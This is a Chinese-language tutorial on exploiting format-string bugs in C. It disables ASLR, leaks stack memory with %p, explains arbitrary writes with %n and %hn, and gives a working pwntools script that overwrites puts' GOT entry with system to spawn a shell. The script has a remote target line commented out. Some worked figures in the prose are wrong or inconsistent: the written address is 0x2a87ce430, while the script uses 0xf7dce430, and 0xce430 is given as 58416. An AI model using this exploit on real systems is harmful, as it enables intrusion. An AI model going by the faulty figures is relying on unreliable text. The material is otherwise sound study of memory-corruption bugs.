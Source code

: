 # stack

关闭地址随机化（注：重启或重新进入终端后会失效，需要重新执行）

```
ulimit -s unlimited
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```



## 格式化字符串



### 格式字符串漏洞是如何工作的？

格式字符串漏洞是一类通过利用程序员容易避免的错误来实现攻击的漏洞。如果程序员将一个**攻击者控制的缓冲区（如：char 数组，字符串）**作为参数传递给`printf`（或任何相关的函数，包括`sprintf`、`fprintf`等），攻击者就可以执行对任意内存地址的写入操作。

以下程序包含此类错误：

```c
#include<stdio.h>

int main(void){
    char buff[100];
    scanf("%s",buff);
    printf(buff);
    return 0;
}
```



由于 **printf** 具有可变数量的参数，它必须使用格式字符串来确定参数的数量。在上述情况下，攻击者可以通过传递字符串 **"%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p"** ，使 **printf** 误以为它有15个参数。它会天真地打印出栈上的接下来15个地址，认为它们是它的参数：

```
$ echo "%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p" | ./a.out 
0xffffdddd 0x64 0xf7ec1289 0xffffdbdf 0xffffdbde(nil) 0xffffdcc4 0xffffdc64(nil) 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520
```



### 实际参数 vs 可选参数

```
printf("%d %d %d",a,b,c);
```

- **字符串 "%d %d %d"** 是传递的第**一个实际参数**
- **变量 a** 是传递的第**二**个实际参数，或者说是第**一**个可选参数
- **变量 b** 是传递的第**三**个实际参数，或者说是第**二**个可选参数
- **变量 c** 是传递的第**四**个实际参数，或者说是第**三**个可选参数

**总结：除第一个字符串以外的实际参数，其他所有参数都是可选参数，可选参数位置为实际参数位置减一。**



通常，**printf("%2$x", 1, 2, 3)**将打印 **2（第二个可选参数）**，我们可以使用  `printf("%<some number>$x")` 来选择打印 `printf` 的任意可选参数。

```
$ echo "%10$p %20$p" | ./a.out
```

- **%10$p** 打印第 10 个可选参数，栈上的第 11 个参数（实际参数）
- **%20$p** 打印第 20 个可选参数，栈上的第 21 个参数（实际参数）





大约在栈上第10个参数处，我们可以看到**“重复内容” 0x25207025 ** ——这些是我们的**字符串 "%p%p%p%p..."** 在**栈上的 16进制**表示！

在我们的情况下，我们看到`0x41414141`是`printf`的第10个参数，因此我们可以简化我们的字符串：

```
$ echo 'AAAA%10$p' | ./a.out 
AAAA0x41414141
```



**一个其他的示例：**

因为字符串数组 **buff** 定义在栈上，且**源代码**中 **char buff[100];** 在 **printf(buff);** 之前，所以**字符串buff 在栈上的地址，高于通过栈传递给 printf 函数的参数的地址**。

通过**传递字符串 AAAAAA...**，可以更明确地看到这一点：

```
(gdb) x/20xw $esp 
0xffffcefc:	0x080491d0	0xffffcf18	0xffffcf18	0x0804821c
0xffffcf0c:	0x0804919d	0xf7ffdb8c	0x00000001	0x41414141
0xffffcf1c:	0x41414141	0x00414141	0x00000001	0xf7ffda20
0xffffcf2c:	0x00000000	0x00000000m	0xffffd1ab	0x00000002
0xffffcf3c:	0x0000001c	0xf7ffcfe8	0x00000018	0x00000000
```

**0xffffcefc** 存储 printf 函数中指向 ret 语句返回到 main 函数中的具体地址。

**0xffffcf00** 存储 printf 函数第 1 个参数。

**0xffffcf04** 栈上原有的内容，但是会被 printf 视为它的第 2 个参数（第 1 个可选参数）。

**0xffffcf17** 栈上原有的内容，也是字符串数组 buff 的首地址，也会被 printf 视为它的第 7 个参数（第 6 个可选参数）。



**打印第 1 个和第 6 个可选参数：**

```
$ echo "AAAA%1$p %6$p" | ./a.out
AAAA0xffffcf18 0x41414141
```



### 任意内存写入

那么如何将其转换为**任意内存写入**呢？ **printf** 有一个非常有趣的格式说明符 **%n**。根据 **printf** 的手册页：

- 已经写入的字符数存储到由 **int***（或变体）指针参数指示的整数中。不转换任何参数。



如果我们传递字符串 **AAAA%10$n**，我们会将**值 4** 写入地址 **0x41414141** ！

我们可以使用printf的另一特性来写入更大的值：如果我们执行 **printf("AAAA%100x")** ，将会输出 **104 个字符（因为%100x会将参数填充到至少100个字符）**。



我们可以做 `AAAA%<value-4>x%10$n` 来向 **0x41414141** 写入任意值。构造：

- **AAAA** 一个 4 字节的字符串（在十六进制中表示为 `0x41414141`），它将被放置在栈上，实际中使用写入的目标位置来替换AAAA。
- **`%<value-4>x`**  是一个具体的数值，是要写入到目标位置的整数值，为什么要减去 4？因为 **AAAA** 已经占用了 4 个字符的位置。如果我们想让 **printf** 输出总共 `<value>` 个字符，那么我们需要从 `<value>` 中减去这 4 个字符，以确保最终写入的值是正确的。
- **%10$n** 
    - `%n` 是一个特殊的格式说明符，它不会像 `%x` 或 `%d` 那样输出任何内容，而是将 `printf` 到目前为止已经输出的字符数存储到由对应参数指定的内存地址中。
    - `10$` 表示我们想要引用栈上的第 10 个参数。通过这种方式，我们可以精确地控制 `printf` 将字符数写入到哪个内存地址。
    - 在这个例子中，`AAAA` 被放置在栈上的某个位置，而 `%10$n` 会将已经输出的字符数（即 `<value-4>`）写入到 `AAAA` 所指向的内存地址 `0x41414141`。





如果要写入的地址为 **0x2a87ce430**，转为整形为**11416691760**，也就说 **printf** 要打印 **11416691760** 个字符，这需要等待很久很久的时间。

**printf 支持 %hn 和 %hhn** 选项：

- **%hn** 会将已输出的字符数作为**短整型**（**short int**），在 32 位系统中为 **2 字节**，写入到由参数指向的内存位置。
- **%hhn** 会将已输出的字符数作为**带符号字符**（**signed char**），在 32 位系统中为 **1 字节**，写入到由参数指向的内存位置。



### 覆盖 got 表

将 **0x2a87ce430** 拆分为 **0x2a87** 和 **0xce430**，因为使用的是**小端**，小端**低位**在内存中为**低地址**，**高位**在内存中是**高地址**，分两次写入目标地址的**高两位地址**和**低两位地址**。

**0x2a87** 对应内存中的**高地址**，**0xce430** 对应内存中的**低地址**。

假设写入的目标地址为 **0x804c010**，则 **0x2a87** 写入 **0x804c012（0x804c010 + 2）**， **0xce430** 写入 **0x804c010**。



假设只有一次利用 printf 的机会，所以必须在**一次 printf** 中分别写入**高两位和地两位**，由于 **%n** 是统计**输出的所有字节数**，所以必须先写入**值小的两位**，再写入**值大的两位**。

**0x2a87** 的整形为 **10887**，小于 **0xce430（58416）**，所以先写入 **0x2a87** 到**高两位**，再写入 **0xce430** 到**高两位**。



**存在格式化字符串漏洞的 C 程序的源代码为（关闭所有地址随机化）：**

```
char buff[100];
read(0,buff,100);
printf(buff);
puts(buff);
```

![image-20241212192559079](./images/stack.assets/image-20241212192559079.png)

利用格式化字符串漏洞，将 **puts 函数跳转的地址**，**覆盖为 system 函数的地址**。

python 利用脚本：

```python
#!/usr/bin/env python3

from pwn import *

context.log_level = "DEBUG"
context.terminal =  ['tmux', 'splitw', '-h']


# p = remote("1.95.36.136",2107)

p = process('./test')
gdb.attach(p,gdbscript=''' 	
    break * main + 84
    break * main + 99
    c
    x/20xw $esp
    x/20xb $esp + 24
    print system
    display 0x804c010
    display/xw 0x804c010
    ''')

puts = 0x804c010
aaaa = p32(puts)
bbbb = p32(puts + 2)

system = 0xf7dce430
low = (system & 0xFFFF) - 12
high = ((system >> 16) & 0xFFFF) - (system & 0xFFFF)

payload = b'sh;#' + aaaa + bbbb + b'%' + str(low).encode() + b'x%7$hn%' + str(high).encode() + b'x%8$hn'

p.readline()

p.sendline(payload)


p.interactive()
```
